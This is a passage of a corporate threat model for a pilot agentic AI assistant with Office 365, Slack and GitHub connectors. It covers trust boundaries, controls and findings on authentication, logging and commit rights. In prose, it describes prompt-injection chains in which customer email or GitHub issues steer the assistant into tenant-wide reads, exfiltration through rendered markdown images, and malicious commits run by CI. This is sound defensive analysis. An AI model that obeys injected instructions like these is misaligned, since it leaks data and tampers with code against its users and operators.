


# Internal AI Assistant — Threat Model

**Version:** 1.1 (v1.0 first pass against the supplied design pages and ticket hierarchy; v1.1 merges the validation session of 2026-09-09) · **Date:** 2026-09-09 · **Classification:** Internal
**Prepared by:** **Brett Crawley, Principal Application Security Engineer** — author of this threat model and facilitator of the validation session. Produced with AI assistance using the security-review skill set authored by Brett Crawley.
**Model:** Claude Opus 5
**Companion:** `03-security-architecture.md` (architecture map, trust boundaries, data model) · `02-use-abuse-and-security-privacy-use-cases.md` (UC, SAC, PAC, SUC, PUC) · `04-gap-analysis.md` · `05-srtm-and-test-artefacts.md` · `06-threat-model-candidates.md` (phase-1 elicitation record)
**Method:** STRIPED per element with the LINDDUN pass under Privacy; AI/ML surface via OWASP LLM and Agentic Top 10, the Elevation of Autonomy deck and MITRE ATLAS; cloud via ATT&CK Cloud and the OWASP Cumulus deck; containers via ATT&CK Containers, OWASP Docker and Kubernetes Top 10 and Pod Security Standards — mapped to OWASP Top 10 (2021), GDPR, NIS2, CRA, PSTI, PCI-DSS, HIPAA and SOC 2.

**Status legend:** 🔴 Open · 🟡 Partial / In progress (issue cited) · 🔵 Planned · 🟢 Mitigated / Live · ⚪ Accepted. Severities: Critical / High / Medium / Low / Info.

**Provenance legend.** Claims derived from the validation session of 2026-09-09 carry an inline tag naming the transcript section and what the session did: `[VS §n · CONFIRMED]`, `[VS §n · CORRECTED]`, `[VS §n · NEW]`, `[VS §n · CONTESTED]`, `[VS §n · ACCEPTED]`, `[VS §n · CLOSED]`, `[VS §n · STILL OPEN]`. Untagged text is v1.0 material the session did not touch. The transcript ships with the pack as `transcript.md`; the finding-level delta is Appendix H and the action register is Appendix I.

> This model covers the internal AI assistant delivered under epic PLAT-2810, as designed on the approved Confluence pages **and** as the ticket hierarchy shows it to be built. Where those two disagree, the divergence is itself a finding in the cross-cutting bucket rather than a scoping decision. It rests on three design pages, one diagram and two ticket files; no source code, infrastructure code, Helm charts or schemas were supplied, so findings that a code pass would confirm are tagged "if present" and named in §11. Every significant finding carries a concrete example threat and a concrete example mitigation inline, drawn from this system.
>
> **v1.1.** The validation session was held on 2026-09-09, 13:30–15:08, and its outcomes are merged here rather than appended. Where the session contradicted an assumption this model made, the contradiction is stated in the finding rather than edited out of it — see O7 and §10. The repository is still absent, so the "if present" tags stand except where a named engineer converted one to an observation. Three findings are new: **O6**, **O7** and **P8**.

---

## 1. Context & Scope

- **What is the system?** An agentic assistant, reachable from a Slack app and a web console, that reads across Office 365 (documents, calendar, mail), Slack, GitHub (issues, pull requests, code) and public web search, and acts in those systems: sending mail, posting to Slack, commenting on and updating GitHub issues, and committing code. An orchestrator (`assistant-svc`) assembles context, calls a hosted model provider, interprets the tool calls the model emits, dispatches them through a connector runtime (`assistant-connectors`) hosting an MCP client and four connector processes, and loops to a final answer. Conversation state lives in Redis with a 24-hour expiry; usage telemetry lives in an analytics warehouse for 13 months. It runs on EKS in a single region. It is in pilot with Platform (twelve users, since 2026-05-04) and Support (nine users, since 2026-06-09).
- **What was analysed:** three Confluence pages (architecture, approved 2026-05-22; data handling and pilot operations, draft 2026-06-30; platform security controls, approved 2025-11-14), one SVG diagram, and the full Jira hierarchy PMO-0447 → PROD-1131 → PLAT-2810 with its six stories and twenty-one tasks, including ticket comments. Sources and their limits are catalogued in `00-context-sources-and-open-questions.md`.
- **Languages & frameworks in scope:** not determinable. No repository was supplied. The components named are `assistant-svc`, `assistant-connectors`, a Slack app and a web console; the runtime stack of each is undocumented.
- **Compliance triggers:** GDPR and UK GDPR (personal data of employees and of external correspondents, including customers); EU AI Act (applicability unassessed, blocked behind PR-03); NIS2 (applicability unassessed — the organisation's sector is not stated in any source). CRA, PSTI, PCI-DSS, HIPAA and SOC 2 are assessed explicitly in §7.
- **Surfaces in scope:** STRIPED · privacy · AI/ML · Cloud · Containers · Third-party dependencies.
- **Out of scope:** sibling epics PLAT-2790 (search indexing, delivered) and PLAT-2856 (analytics, not started) — named under PROD-1131 but not supplied, which is why no vector-store or RAG findings appear here. Phase 3 unattended operation and customer-facing surfaces, explicitly out of scope for this release. Fine-tuning on organisational data, explicitly out of scope. The corporate identity provider, the VPN and the EKS control plane, treated as roots of trust.
- **Headline findings.** Two, and they compound. **O1**: the approved architecture page states that each connector holds a per-user delegated credential and that "a user cannot reach anything through the assistant that they could not reach directly", while PLAT-2820 is To Do, blocked on Identity Platform since 2026-04-18 and unscheduled, and PLAT-2820-3 records that the prototype runs on one app registration with application permissions across all connectors. Every reader of that page — including the architecture forum that approved it — is building on a control that does not exist. **AI1**: the design treats web search as the only untrusted input, while Support's use case reads a shared mailbox of customer-authored mail and the GitHub connector reads issues from outside contributors. Externally-authored content reaches the model as instructions, and because of O1 the tool calls it produces execute with tenant-wide reach. An unauthenticated attacker who sends an email can cause a read of any repository in the organisation and exfiltrate the result through a markdown image the egress proxy never sees.
- **What the validation session established about the headline.** `[VS §1 · CONFIRMED]` The architecture page's author confirmed the Authorisation paragraph is not accurate about what runs — "It's accurate about D-03. It isn't accurate about what runs." Open question **Q5** is answered as **no**: the orchestrator takes the user's identity at the surface and drops it before the MCP client sees it; there is no user field on the connector call at all. Three people in the room — the product owner, the Security Champion and, by the architecture owner's own account, the forum that approved the page on 2026-05-20 — had believed the control was in place, all reading the same page, while the ticket contradicting it had sat under the epic since May. The product owner had stated the control as fact to the steering group twice, in writing. The Data Protection Officer's summary of the effect stands as the plainest statement of it in the pack: asked whether a Support agent can today retrieve the finance director's mailbox through the assistant, the answer was yes. Nothing in the headline was softened; the room's contribution was to remove the last of its conditionality.

---

## 2. Attack Surface Summary

### 2.1 High-level architecture with trust zones

### 2.2 CI/CD trust hierarchy and blast radius

No pipeline definitions were supplied, so this is reconstructed from the platform controls page and the tickets. The organisation's inherited baseline is strong: protected branches require an approving review, direct pushes are rejected, commits on protected branches must be signed, secret scanning with push protection is organisation-wide, and dependency scanning through the shared CI template blocks the build on Critical findings.

The blast radius that matters is not a compromise of the pipeline; it is the assistant's own write access into the repositories the pipeline builds from. PLAT-2817-3 records "Issues, comments and commits. Commits go direct to the working branch", with M. Oyelaran's comment that "branch protection means anything on a protected branch needs review, so the blast radius is bounded". That is correct about protected branches and does not address two other paths: CI that runs on push to a working branch executes the committed content before any review, and a plausible-looking change on a working branch reaches production through a human approving a pull request for its stated purpose. The GitHub app is installed at organisation level (PLAT-2814-4), so the reachable set is every repository, not the requesting user's.

**A third path, and it is not one this model found.** `[VS §2 · NEW]` Branch protection carries a **standing exemption for `platform-ci`**, held as a config file in the organisation repository and recorded in no Confluence page. P. Raghunathan raised it in the validation session: "It's not new. It's just not written down anywhere you'd look." The architecture owner withdrew his own defence on hearing it — "I've been treating branch protection as a boundary and it has a hole in it that isn't on the page I'd cite to prove the boundary exists." This is recorded as fact rather than inference because no document in the estate contains it, and it is finding **O6**. Note what it does to the reasoning as well as to the control: a reviewer working from the standing controls page, which is what the organisation instructs designs to cite, cannot see the exemption and will over-credit the boundary in exactly the way v1.0 of this model did.

**Usage, which the session measured and this model had assumed.** `[VS §2 · NEW]` The commit capability — the largest blast radius in the pack, organisation-wide write into every repository — has been used **eleven times since July, nine of those by the engineer testing it, two genuine and both trivial.** Nobody in Support has ever used it. The product owner's estimate before the number was produced was "constantly". The consequence is carried into E3 and T3: disabling the commit tool at the dispatcher until PLAT-2820 lands costs two real uses in two months, and the product owner accepted it on that basis while reserving the capability's return before GA.

### 2.3 Highest-risk flow

Nothing in this flow requires the attacker to authenticate, and no deterministic control interrupts it. The egress proxy sits on TB6 and never sees the final hop, because the fetch is made by the Support agent's browser rather than by a cluster workload.

### 2.4 Network and access view

Public ingress reaches the two surfaces only; `assistant-svc` and `assistant-connectors` carry no ingress route (architecture page, Deployment). Remote access to the console is over the VPN, which enforces MFA — but the console itself is then gated by a shared password rather than by the identity provider (PLAT-2831-3, To Do). Egress from cluster workloads passes through the egress proxy with a domain allowlist reviewed weekly by Platform Security. Default-deny NetworkPolicy applies **between** namespaces; the orchestrator and all four connectors sit in one namespace (PLAT-2814-1), so that control does not separate them. Secrets are mounted at pod start from AWS Secrets Manager into that same namespace.

### 2.5 Data classification and residency

| Store | Data | Classification | Region | Protection at rest | Retention / deletion path |
|---|---|---|---|---|---|
| Redis conversation state | Assembled context: document bodies, mail, source code, customer correspondence | Declared Internal; in practice **Confidential** | Single region, in cluster | **Unstated** — no source addresses it | 24h TTL. User may delete own conversations. No leaver trigger, no third-party route |
| Analytics warehouse | Per-request user, team, model, token counts, tool names, latency | Internal, and **personal data** via the user dimension | Unstated | **Unstated** | 13 months. **No deletion path** |
| Platform logs | Request-level fields; tool arguments and results if debug level is enabled | Internal, becomes **Confidential** if enabled | Platform | Platform baseline | 90 days hot, 12 months cold. **No deletion path** |
| AWS Secrets Manager | Connector credentials, model provider key | Secret | Single region | KMS, workload-identity scoped | Rotation where the downstream system supports it |
| Model provider context | Full assembled context per turn | Confidential and personal data | EU endpoint | Contractual | **Unknown** — agreement scope unverified |
| Systems of record | Documents, mail, calendar, messages, code | Per source | Vendor | Vendor | Vendor terms, unaffected by the assistant |

### 2.6 Trust boundaries

| ID | Boundary | Crossing | Control at the crossing | Confidence | Evidence / open issue |
|---|---|---|---|---|---|
| TB1 | Person to surface | Turn and asserted identity | Slack workspace auth; console shared password behind MFA VPN | Low for the console | PLAT-2831-3 To Do. Finding S1 |
| TB2 | Surface to orchestrator | Turn plus user identity | Cluster-internal, no ingress route | Medium | Architecture page Deployment. Mechanism unverified, no code supplied |
| TB3 | Orchestrator to model provider | Full assembled context | TLS, egress allowlist, EU endpoint, agreement held by Data Platform | Low on contractual scope | D-01. Finding P4 |
| TB4 | Orchestrator to connector runtime | Tool name and model-composed arguments | None stated; same namespace | Low | PLAT-2814-1. Findings S5, AI3 |
| TB5 | Connector to corporate SaaS | Read and write requests | Documented as per-user delegated OAuth; actually one app registration with application permissions. **The user identity is dropped in the orchestrator before dispatch — there is no user field on the connector call** `[VS §1 · CONFIRMED]` | **Very low** | PLAT-2820 To Do, PLAT-2820-3; Q5 answered in the session. Findings O1, E1, S2, R2 |
| TB6 | Web-search connector to internet | Query out, attacker-authored content in | Egress proxy allowlist; the sanitiser on return. **What the sanitiser does remains unknown to the team that owns it** `[VS §3 · STILL OPEN]` | Medium out, Low in | PLAT-2814-5; Q7 still open. Findings I3, AI6, C6 |
| TB7 | Orchestrator to conversation store | Context of every classification | Cluster-internal | Low | No protection stated anywhere; Redis authentication and at-rest encryption remain unanswered `[VS §10 · STILL OPEN]`. Finding I2 |
| TB8 | Orchestrator to telemetry warehouse | Per-user usage rows | Unstated. **`user_ref` is on every row; the dashboard groups it away and the table does not** `[VS §7 · CONFIRMED]` | Low | PLAT-2822-1. Findings P2, CL5 |
| TB9 | Model output to rendering client | Markdown including image and link tags | **None** | **Very low** — this boundary appears in no source, and its absence from the architecture diagram was confirmed by the diagram's author: "It isn't on my diagram. There's no arrow there." `[VS §4 · CONFIRMED]` | Pilot page rough edges. Finding AI2 |
| TB10 | Cluster workload to AWS control plane | Pod or node identity to Secrets Manager and API server | Workload identity per service | Medium, unverified | Platform controls page. Findings CL6, C5 |

---

## 3. Existing Organisational Controls

The inherited platform baseline is genuinely strong and several findings below are less severe because of it. What it does not close is the application layer, which the standing page says explicitly: "Application-layer controls are the responsibility of the owning team."

| Control | Closes | Does not close | Notes |
|---|---|---|---|
| Egress proxy with domain allowlist, reviewed weekly, in place since 2023 | Exfiltration to arbitrary destinations from cluster workloads | Exfiltration to an allowlisted destination that accepts attacker-chosen strings (I3); anything rendered by the user's own client (AI2, TB9) | The strongest single control in the estate, and structurally unable to see TB9. `[VS §4 · CONFIRMED]` Both the Security Champion and the architecture owner entered the session believing this control covered AI2 and left having agreed it cannot: "Then the proxy is irrelevant to it. Completely irrelevant." The Security Champion had cited the proxy in two design reviews this quarter |
| No public ingress to internal services | Direct attack on `assistant-svc` and `assistant-connectors` | Everything reaching them through the two surfaces | Correctly stated and correctly scoped |
| VPN with MFA for remote access | Unauthenticated reach to the console | Which employee is using the console, because the console credential is shared (S1) | The MFA is on the VPN, not on the application |
| Branch protection, required review, signed commits on protected branches | Direct unreviewed change to protected branches | Commits to working branches, CI execution on push, a reviewer approving a plausible change, **and a standing undocumented `platform-ci` exemption** (T3, O6) | **Does not bound T3 at all** `[VS §2 · CORRECTED]` — it bounds a path the assistant does not take, because commits go direct to the working branch. v1.0 credited it as a partial mitigation; that credit is withdrawn here and in Appendix F |
| Org-wide secret scanning with push protection | Secrets committed to the assistant repositories | Secrets in runtime configuration or logs (T2) | Closes CU·ASA outright |
| Dependency scanning via shared CI template, blocking on Critical | Known-vulnerable application dependencies | The MCP tool-description surface, which is not a dependency in this sense (AI9) | Closes CU·DL7 |
| Container scanning on push, weekly rebuilds | Stale base images | Digest pinning, signature verification at admission, SBOM per image (C3) | Closes CU·DL8 |
| Default-deny NetworkPolicy between namespaces | Lateral movement across namespaces | Lateral movement **within** the assistant namespace, where all four connectors sit (C1) | The control is real; the design puts everything on one side of it |
| Debug and diagnostic endpoints disabled in production builds | Diagnostic route disclosure (STR·I2, STR·I3) | Debug **log level**, which is a separate configuration value (T2) | Closes two prompts outright |
| Secrets Manager with workload-identity-scoped access | Secrets in source, images or artefacts | Secrets mounted into a pod that also runs third-party code (I4) | Closes four Cumulus cards |
| Platform logs, 90 days hot and 12 months cold, Platform Security read access | Retention shorter than detection lag; log inaccessibility during outage | What the assistant chooses to record (R1) | Closes STR·R7 |
| Workload identities provisioned per service, reviewed by Platform Security | Ad-hoc IAM sprawl | Whether the assistant's pods use IRSA or the node role (CL6) | Unverified for this workload |

---

## 4. STRIPED Analysis

### Spoofing

#### S1 — Web console is authenticated by a shared password rather than the identity provider — **High** 🔵
`[STRIPED-S]` `[OWASP A07:2021 Identification and Authentication Failures]` `[GDPR Art. 32]` `[Cumulus AS-10]`

- **Issue.** The web console (PLAT-2831-2) sits behind the VPN with a single shared password. PLAT-2831-3, SSO on the web console, is To Do; P. Raghunathan's comment of 2026-06-20 reads "prototype console is behind the VPN with a shared password. Needs SSO before anyone outside the pilot sees it." The standing platform controls page states that "All corporate applications authenticate through the identity provider. MFA is enforced for all users", so this surface sits outside the organisation's own standard. A shared credential cannot be revoked per person, cannot be attributed, and spreads by being told to people.
- **Example threat.** An employee who is not in the pilot learns the console password from a colleague in a channel message — shared credentials propagate exactly this way. They connect to the VPN, which authenticates them as themselves and then hands them a surface that cannot tell them apart from the twenty-one pilot users. They open the history view and read a Support agent's conversation containing a customer's account details and a Platform engineer's conversation containing retrieved source code. No record identifies who read either, because the console has no per-user identity to record.
- **Mitigation.** Complete PLAT-2831-3. Authenticate the console through the corporate identity provider with MFA, scope the history view to the authenticated subject, and remove the shared credential rather than leaving it as a fallback.
- **Example mitigation.** OIDC authorisation-code flow against the corporate IdP, with the session cookie set `HttpOnly; Secure; SameSite=Lax`, and every history query filtered server-side by `user_ref = <subject claim>` rather than by a client-supplied identifier. The deterministic check is that a request with no valid subject claim reaches no handler.
- **Refs.** SAC-03 · SUC-08 · G-08 · TA-12 · PLAT-2831-3 · related I1, O2.

#### S2 — Connectors present one shared app registration instead of per-user credentials — **Critical** 🔴
`[STRIPED-S]` `[OWASP A07:2021 Identification and Authentication Failures]` `[GDPR Art. 5(1)(f)]` `[SOC 2 CC6.1]`

- **Issue.** PLAT-2820-3 records, in P. Raghunathan's comment of 2026-05-06: "the prototype uses one app registration with application permissions across all connectors, so we could get moving while PLAT-2820-1 is blocked. Must not reach GA like this." PLAT-2820-1, delegated OAuth flows per connector, is blocked on Identity Platform, requested 2026-04-18 and not scheduled. Every request the assistant makes to Office 365, Slack and GitHub therefore carries one machine identity, not the identity of the person who asked. The architecture page states the opposite as fact.
- **Example threat.** A Platform engineer asks the assistant to summarise the finance team's budget planning document. The O365 connector presents the shared registration's application-permission token, which grants tenant-wide read. Office 365 authorises the request because the identity presenting it is entitled; it has no way to know a person is behind it who is not. The engineer receives the document. Nothing in Office 365's audit log distinguishes this from any other assistant request, and nothing in the assistant's log records which document was returned, because arguments are not recorded in production.
- **Mitigation.** Complete PLAT-2820: per-user delegated credentials for every connector, held in a credential store with short TTL and refresh, with the requesting user's identity carried through the orchestrator into every dispatch. Until Identity Platform schedules PLAT-2820-1, escalate the dependency at portfolio level rather than treating it as a backlog item, and apply the interim narrowing in E1's mitigation.
- **Example mitigation.** OAuth 2.0 on-behalf-of flow per connector: the surface obtains an ID token for the user, the orchestrator exchanges it for a delegated access token scoped to that user and that connector, and the connector presents that token. The deterministic property is that the SaaS platform's own authorisation decision — made against a token that identifies a person — becomes the enforcement point, so a request for something the user cannot see returns 403 regardless of what caused the assistant to make it.
- **Session outcome.** `[VS §1 · CONFIRMED]` **Severity Critical confirmed; no dispute from any owner.** Q5 is answered as no: "The orchestrator takes the user's identity at the surface and it doesn't carry it into the dispatch. There is no user field on the connector call. It gets dropped before the MCP client sees it" — P. Raghunathan. The shared registration is confirmed as one app registration with application permissions across all four connectors. The blocking dependency, PLAT-2820-1, remains blocked on Identity Platform since 2026-04-18 and unscheduled; Identity Platform did not respond to the session invitation, so nothing here carries their confirmation. `[VS §1 · STILL OPEN]` M. Oyelaran took the portfolio escalation to the COO office with the finding IDs attached (Appendix I, action 1).
- **Refs.** SAC-04 · SUC-01 · G-01 · TA-01, TA-02 · PLAT-2820, PLAT-2820-1, PLAT-2820-3 · related E1, R2, O1.
- **Why it's still Critical:** the compensating controls that exist — branch protection, the egress proxy — bound what an attacker can do *after* the over-broad read succeeds. None of them prevents the read. `[VS §2, §4 · CORRECTED]` Both of those compensating controls turned out to be weaker than v1.0 credited: branch protection does not bound the path the assistant takes at all (T3, O6), and the egress proxy is structurally blind to the exfiltration hop (AI2). The Critical rating did not depend on either, and stands.

#### S3 — Possession of a conversation identifier resumes a session and its context — **Medium** 🔴
`[STRIPED-S]` `[OWASP A01:2021 Broken Access Control]` `[GDPR Art. 32]`

- **Issue.** Conversation state is held in Redis for 24 hours and the history view (PLAT-2825-2) is "backed by conversation state". No source describes an authorisation check binding a conversation to its owner at resumption; on the console, the only credential in play is shared. A conversation is not an inert record — it holds accumulated context and can be continued, which makes the identifier closer to a capability than to a reference.
- **Example threat.** An attacker with the console password enumerates or observes a conversation identifier belonging to a Support agent. They resume that conversation and ask a follow-up question. The orchestrator loads twenty hours of accumulated context — a customer's correspondence, an internal document, a repository file — and answers from it, then continues to act using tool calls that inherit the same tenant-wide connector credential. The original user sees nothing.
- **Mitigation.** Bind every conversation to an authenticated subject and re-evaluate that binding on every turn, not only at creation. Make identifiers unguessable *and* authorised, since unguessability alone is not an authorisation control.
- **Example mitigation.** Store `owner_subject` on the conversation record and enforce `conversation.owner_subject == request.subject` in the orchestrator before any context is loaded, returning 404 rather than 403 so the check does not confirm the identifier exists. Depends on S1 being fixed first, because until then there is no subject to compare against.
- **Refs.** SAC-03, SAC-08 · SUC-08 · G-08 · TA-12 · related S1, E5, I1.

#### S4 — Recipients cannot tell an assistant-sent message from a human-sent one — **Medium** 🔴
`[STRIPED-S]` `[OWASP A07:2021 Identification and Authentication Failures]` `[GDPR Art. 5(1)(a)]` `[EU AI Act Art. 50]`

- **Issue.** The assistant sends mail and posts to Slack (PLAT-2817-2). Nothing in the design marks the output as machine-generated to the recipient. The in-conversation action display (PLAT-2825) is shown to the *sender*, not to the person who receives the message. The pilot page records that acting-when-uncertain "has caused two mistaken Slack posts", so messages the sender did not intend have already reached other people.
- **Example threat.** The assistant posts a release summary to a team channel that names a colleague as the cause of a delay, composed from a plausible but wrong reading of an issue thread. Team members read it as a statement written by the person whose name is on it and respond accordingly. The colleague learns of it from the reaction rather than from the sender, and there is no marker on the message and no record of the arguments that produced it to establish what happened.
- **Mitigation.** Mark machine-composed content at the recipient's end: a persistent prefix or Slack attachment footer on posted messages, and a header plus a visible line on sent mail, naming the assistant and the human on whose behalf it acted. This is also the likely EU AI Act Article 50 transparency obligation once PR-03's assessment exists.
- **Example mitigation.** Post through the Slack API with a `blocks` payload whose final context block reads "Composed by the assistant on behalf of <user>", added by the dispatcher rather than by the model, so its presence does not depend on what the model produced. Add `X-Auto-Generated: assistant` and an equivalent visible line to outbound mail.
- **Refs.** PAC-07 · SUC-05, PUC-08 · G-20 · TA-26 · PLAT-2817-2 · related AI13, R3.

#### S5 — Connector processes are trusted by shared namespace rather than by authentication — **Medium** 🔴
`[STRIPED-S]` `[OWASP A07:2021 Identification and Authentication Failures]` `[K07]` `[CIS-K8s 5.3.2]`

- **Issue.** PLAT-2814-1 records "MCP client in the orchestrator. Connector processes in the same namespace." No source describes mutual authentication between `assistant-svc` and the connector processes; the architecture page's trust model rests on network position — "Traffic reaching the connector runtime has already been authenticated at the perimeter". Perimeter authentication establishes that a request came from inside; it does not establish which component sent it. Tagged "if present": a Helm chart or service mesh configuration would confirm or refute mTLS between these pods.
- **Example threat.** The community web-search MCP server is compromised through a malicious version bump. Running in the same namespace, it opens a connection to the connector runtime and issues tool calls of its own — a mail send, a repository read — which are accepted because they arrive from inside the namespace and nothing checks which workload identity sent them. The orchestrator's own dispatch record, which would show that no user turn preceded these calls, is not written in production.
- **Mitigation.** Require workload identity on every connector call: mTLS with SPIFFE identities or a service mesh with strict mode, and an authorisation policy naming which identity may call which connector. Combine with the namespace separation in C1 so that network position stops being a proxy for trust.
- **Example mitigation.** Istio `PeerAuthentication` with `mtls.mode: STRICT` on the namespace and an `AuthorizationPolicy` whose `rules.from.source.principals` lists only the orchestrator's service account for each connector service. A call from any other identity is refused at the sidecar before the connector process sees it.
- **Refs.** SAC-05 · SUC-07 · G-07 · TA-10, TA-11 · PLAT-2814-1 · related C1, C6, I4.

### Tampering

#### T1 — Per-workspace model selection changes security behaviour outside review — **Medium** 🔴
`[STRIPED-T]` `[OWASP A05:2021 Security Misconfiguration]` `[LLM03]` `[SOC 2 CC8.1]`

- **Issue.** PLAT-2822-2 delivered per-workspace model configuration so that "teams can manage their own consumption", and PLAT-2822 asks for "cheaper model tiers configurable per workspace". Model choice is a runtime configuration value that changes how the system behaves under adversarial input — a cheaper tier is generally more susceptible to injection and more prone to hallucination. Nothing in the design places that value under change control, records who changed it, or ties it to the workspace's data classification.
- **Example threat.** A Support workspace administrator switches to the cheapest tier at the end of a budget period. Support's conversations handle customer correspondence — the highest-sensitivity data class the assistant touches — and are now processed by the model least able to resist the injected instructions arriving in that mailbox. Nothing alerts, nothing blocks, and the telemetry that would show the change records the model name per request without flagging that it changed.
- **Mitigation.** Treat model selection as security-relevant configuration: restrict the settable range per workspace by data classification, require a recorded approval to change it, and emit an audit event on change. Pin the model version rather than tracking a floating alias, so behaviour does not change under the configuration either.
- **Example mitigation.** A server-side allowlist keyed on workspace classification — `{"support": ["provider/model-large@2026-04"], "platform": ["provider/model-large@2026-04", "provider/model-small@2026-04"]}` — validated at write time, with the change written to the audit store defined in R1's mitigation.
- **Refs.** UC-06 · SUC-11 · G-11 · TA-16 · PLAT-2822-2 · related AI12.

#### T2 — Debug logging of tool arguments is a flag away from a Confidential spill — **High** 🔴
`[STRIPED-T]` `[OWASP A09:2021 Security Logging and Monitoring Failures]` `[GDPR Art. 5(1)(c), Art. 32]` `[Cumulus MO-A]`

- **Issue.** The architecture page's Logging section states: "Tool arguments and results are logged at debug level, off in production for volume reasons." The capability exists and is one configuration value away from being on. Tool results are document bodies, mail bodies, source code and customer correspondence. Platform logs are retained 90 days hot and 12 months cold with the access controls of general platform logging, and no source describes a deletion path for them. The platform's "debug endpoints disabled in production" control covers diagnostic *routes*, not log *level*, so the inherited baseline does not reach this.
- **Example threat.** An engineer debugging a live connector failure during the afternoon peak raises the log level to capture what the tool call actually returned. For the twenty minutes it takes to find the problem, every Support conversation writes complete customer mail bodies into the platform log pipeline. The level is turned back down; the data stays for twelve months, in a store whose access list is wider than the mailbox's, with no mechanism to remove it and no record that it happened.
- **Mitigation.** Remove document and mail bodies from the debug path entirely rather than gating them. Log argument *shape* and a content hash at debug level, never content. Where content is needed for a specific investigation, make it a separately authorised, time-boxed capture into a restricted destination with its own retention.
- **Example mitigation.** In the dispatcher, emit `{"tool":"o365.read_mail","arg_keys":["mailbox","message_id"],"result_bytes":18422,"result_sha256":"…"}` at debug level, with a scrubber on the log pipeline that drops any field not on an allowlist. The deterministic check is that no field carrying free text can reach the log writer, regardless of level.
- **Session outcome.** `[VS §6 · CONFIRMED]` Severity and mitigation confirmed, and the mitigation is smaller than the pack costed it: "T2 is half a day. It's an allowlist on the log fields" — P. Raghunathan. Agreed that bodies are **removed** from the debug path rather than gated behind a flag, and that this does not wait for the rest of the evidence-layer work. Owner P. Raghunathan, this sprint (Appendix I, action 13).
- **Refs.** SAC-11 · SUC-09 · G-09 · TA-13, TA-14 · related I4, P3, R1.

#### T3 — Assistant holds commit rights across every repository in the organisation — **High** 🔴 `[VS §2 · CORRECTED]`
`[STRIPED-T]` `[OWASP A08:2021 Software and Data Integrity Failures]` `[ATT&CK T1195]` `[SOC 2 CC8.1]`

- **Issue.** PLAT-2814-4 installs the GitHub connector as an org-level app; PLAT-2817-3 gives it "Issues, comments and commits. Commits go direct to the working branch." M. Oyelaran's comment notes that branch protection bounds the blast radius, which is true for protected branches and does not cover two other paths: CI that triggers on push to a working branch executes the content before review, and a plausible change on a working branch reaches production through a reviewer approving a pull request for its stated purpose. File path arguments are composed by the model and no source describes canonicalising them against an allowed root.
- **Example threat.** An outside contributor opens an issue on a public repository whose body carries instructions addressed to any assistant reading it. A Platform engineer asks "what's blocking the release?"; the assistant reads open issues and the instruction enters context. It emits a commit tool call adding a line to a build script on a working branch. CI runs on push and executes it, reaching the build runner's credentials before any human sees the change. The engineer's conversation reports that the assistant "reviewed the open issues".
- **Mitigation.** Constrain the write surface deterministically: restrict the GitHub App installation to a named repository list rather than the organisation, allowlist writable paths per workspace, canonicalise every path argument against an allowed root before dispatch, and require out-of-band confirmation on any commit. Once S2 lands, delegated credentials also bound commits to repositories the requesting user can already write to.
- **Example mitigation.** In the dispatcher, reject any commit whose `os.path.realpath(root + path)` does not start with `root`, and validate `repo` against a per-workspace allowlist before the call leaves the connector runtime — `if repo not in ALLOWED[workspace]: raise Refused(...)`. Pair with a CI trigger restricted to pull requests rather than pushes on branches the assistant can write to.
- **Session correction — status and likelihood.** `[VS §2 · CORRECTED]` **Status changed from 🟡 Partially mitigated to 🔴 Open. Likelihood raised from Medium to High.** v1.0 credited branch protection as bounding this finding. It does not. Commits go direct to the working branch (PLAT-2817-3), and the working branch is not protected — so, in P. Raghunathan's words, the partial mitigation "bounds a path the assistant doesn't take". The credit was for the wrong path and is withdrawn. Appendix F carries the same correction in its "Narrows" column. **This is a correction to the pack, not to the team**: the team's statement about branch protection was accurate, and the error was this model's in applying it to a path it does not cover. The architecture owner accepted the first uncovered path (CI on push) and maintained that the second (a reviewer approving a plausible change) is a reviewer problem rather than an assistant problem — recorded as disagreement, not resolved. `[VS §2 · CONTESTED]`
